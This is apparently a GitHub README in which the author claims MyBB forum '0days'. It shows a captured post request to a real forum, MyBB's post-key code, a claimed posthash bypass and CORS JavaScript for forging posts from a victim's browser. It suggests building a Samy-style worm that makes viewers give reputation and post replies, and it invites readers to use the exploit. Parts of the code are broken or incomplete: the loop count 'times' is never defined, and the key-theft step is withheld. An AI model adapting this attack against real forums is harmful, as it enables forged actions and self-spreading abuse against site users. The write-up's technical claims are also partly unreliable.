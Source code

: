 So here we're going to start,
first I'm going to show proof that I have serveral MyBB 0day's including critical vulnerabilities/exploits. 
The proof is located [here] (https://github.com/rootkitGirl/MyBB-0day/blob/master/PoC).

- *Versions affected: 1.6x & 1.8x*
- *Versions tested: 1.8.3 (latest), and 1.6.16 (latest for 1.6 series)*

So I was playing with MyBB and monitoring requests, and noticed a few things which led to a pretty decent bugs. These are all from personal findings testing on multiple sites.

First, breaking down MyBB is simple. When you go to post a new thread, it asks for a few things upon submission, here is a sample post request to the forum Hackforums:

```
POST http://www.hackforums.net/newreply.php?tid=4602700&processed=1 HTTP/1.1
Host: www.hackforums.net
User-Agent: Mozilla/5.0 (Windows NT 5.3; rv:34.0) Gecko/20100101 Firefox/34.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.hackforums.net/newreply.php?tid=4602700
Cookie: *
Connection: keep-alive
Content-Type: multipart/form-data; boundary=------71842462512788
Content-Length: 1588

------71842462512788
Content-Disposition: form-data; name="my_post_key"

******
------71842462512788
Content-Disposition: form-data; name="message_new"

Hey dude, I love your site Omni. Can I get a free upgrade?
------71842462512788
Content-Disposition: form-data; name="message"

Hey dude, I love your site Omni. Can I get a free upgrade?
------71842462512788
Content-Disposition: form-data; name="submit"

Post Reply
------71842462512788
Content-Disposition: form-data; name="action"

do_newreply
------71842462512788
Content-Disposition: form-data; name="replyto"

------71842462512788
Content-Disposition: form-data; name="posthash"

******
------71842462512788
Content-Disposition: form-data; name="attachmentaid"

------71842462512788
Content-Disposition: form-data; name="attachmentact"

------71842462512788
Content-Disposition: form-data; name="subject"

*
------71842462512788
Content-Disposition: form-data; name="quoted_ids"

------71842462512788
Content-Disposition: form-data; name="tid"

4602700
------71842462512788--
```

So, what we have a few fields, first is the post key - it's important because if we don't have this, we can't post anything. Taking this key is **quite simple** and will be explained later on. Now the other hash we need is the posthash - now this posthash is merely a MD5 string, just create any valid MD5 string and you can bypass it. It's mostly a placeholder from what I can tell, I haven't dug too deep into the actual code behind it.

Now, looking at the message_new and message fields - MyBB submits both of those, however, it only displays the contents in message field, so you can even write *cocks* in message_new field upon post, and it won't even be shown in the post.

**So, how is post key generated?**
Post key relies on this function:

```
function generate_post_check()
{
	global $mybb, $session;
	if($mybb->user['uid'])
	{
		return md5($mybb->user['loginkey'].$mybb->user['salt'].$mybb->user['regdate']);
	}
	// Guests get a special string
	else
	{
		return md5($session->useragent.$mybb->config['database']['username'].$mybb->settings['internal']['encryption_key']);
	}
}
```

Which to validate the post key goes to this function:

```
function verify_post_check($code, $silent=false)
{
	global $lang;
	if(generate_post_check() != $code)
	{
		if($silent == true)
		{
			return false;
		}
		else
		{
			if(defined("IN_ADMINCP"))
			{
				return false;
			}
			else
			{
				error($lang->invalid_post_code);
			}
		}
	}
	else
	{
		return true;
	}
}
```

Now we can see it looks for the loginkey, salt, regdate. Now these are fairly easy to get (I won't be explaining how, it's fairly easy, but it's too long to explain while I'm on this shitty computer). Now, once you obtain the post key - it's useable as long as the user doesn't change their password, now most cases people don't change forum passwords usually until they get hacked, or they want to use a more secure password.

Now, forming our attack, we need to know a target, so I picked a website admin on my local site, I wrote a CORS (Cross-Origin-Resource-Sharing) script (javascript) so it goes from the users browser, the users browser hits a URL with the requested POST contents, then the URL at the other end obtains the request, processes it and doesn't return a message.  Assuming you formed the request properly, you will see the changes applied.

**How is this useful?**
Do you remember Sammy, and what he did with MySpace? It can be applied as the same concept with modifications. Depending on what we want to do, we can form the requests differently. This goes for submitting a post/thread, giving reputation points, etc. If you wanted to you could make this concept like a worm and just everyone who views just decides to give you reputation points, and post replies on your threads (**yes it would require some more work to get the post key**), however the possibilities are endless.

**CORS code**
Note: this is sample code taken from appsec-labs, which you'll need to modify to suit your target.

```
// I suggest adding jQuery to top of file
// You will have to modify the code to make it more useable as I won't be modifying it for you.
var url = 'http://forum.mytarget.com/';
$(document).ready(function() {
     corsMyBBPost();
});
function corsMyBBPost()
{
	for(i=0; i<times; i++)
	{
		cors_send("post", url + "?proof_of_concept=1&req_num=" + i, "post=data", false);
	}
}

function cors_send(method, url, data, credentials)
{
	var cors;
	if (window.XDomainRequest)
	{
		cors = new XDomainRequest();
		if (cors)
		{
			cors.onprogress = function() { CORSstatus("Process") };
			cors.onload = function() { CORSresult(cors.responseText) };
		}
		else
			CORSstatus("Browser does not support Cross Origin Request");
	}
	else if (window.XMLHttpRequest)
	{
		cors = new XMLHttpRequest();
		cors.onreadystatechange = function() {
			if (cors.readyState == 4)
				CORSresult(cors.getAllResponseHeaders(), cors.responseText);
			else
				CORSstatus("Process");
			}
	}
	else
	{
		CORSstatus("Browser does not support AJAX");
	}

	method = method.toUpperCase();
	if (method == "POST" || method == "PUT")
		cors.open(method, url, data);
	else
		cors.open(method, url);

	if (credentials)
		cors.withCredentials = "true";
    cors.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
	cors.send(data);

	CORSstatus("Cross Origin Resource Sharing - Start");
}
function CORSstatus(msg) {
     console.log(msg);
}
function CORSerror(msg) {
     console.log("Oh shit..." + msg);
}
```

And it's pretty much it, nothing fancy to it. I'll not post how to swipe the post keys, let's say I consider as a part of my *anti-leech protection*. If you want to use this now, you'll have to figure out how to swipe the post keys yourself. If you have found how you can do it you can use this exploit/bug or however you want to call it. 

I hope you learned more from this, but the most important: have fun.
